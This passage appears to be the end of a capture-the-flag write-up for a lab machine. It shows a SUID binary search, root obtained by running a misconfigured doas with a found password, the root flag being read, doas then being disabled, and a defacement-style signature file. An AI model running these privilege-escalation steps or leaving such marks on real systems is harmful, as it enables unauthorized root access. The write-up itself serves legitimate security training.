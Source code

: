 1) I see all sudo privilege:
```
v0id@ubuntu:/var/web$  find / -perm -4000 2>/dev/null | grep "/bin/"
 find / -perm -4000 2>/dev/null | grep "/bin/"
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/doas
```

2) I exploit the doas binary to spawn the root shell :
```
v0id@ubuntu:/var/web$ doas /bin/bash
doas /bin/bash
Password: love_the_void

root@ubuntu:/var/web# cat /root/root.txt
cat /root/root.txt
THM{diamonds_break_our_aching_minds}
root@ubuntu:/var/web# 
```

---
## Patch the machine vulnerabilities

1) I change all the permess that they generate the privilege escalation:
```
root@ubuntu:/var/web# chmod a=-x /usr/local/bin/doas
chmod a=-x /usr/local/bin/doas
root@ubuntu:/var/web# ls -all /usr/local/bin/doas
ls -all /usr/local/bin/doas
---------- 1 root root 37952 Jan 15  2021 /usr/local/bin/doas
root@ubuntu:/var/web# 
```
2) I leave my signature:
```
root@ubuntu:/var/web# cd /home/v0id/
cd /home/v0id/
root@ubuntu:/home/v0id# touch README.txt
touch README.txt
root@ubuntu:/home/v0id#  echo 'CyberSpider  has been here, Now I am root :)' > README.txt
EADME.txtberSpider  has been here, Now I am root :)' > RE
root@ubuntu:/home/v0id# cat README.txt
cat README.txt
CyberSpider  has been here, Now I am root :)
root@ubuntu:/home/v0id# chmod a=+r-x-w README.txt
chmod a=+r-x-w README.txt
root@ubuntu:/home/v0id# ls -all README.txt
ls -all README.txt
-r--r--r-- 1 root root 45 Feb 14 16:24 README.txt
root@ubuntu:/home/v0id# 
```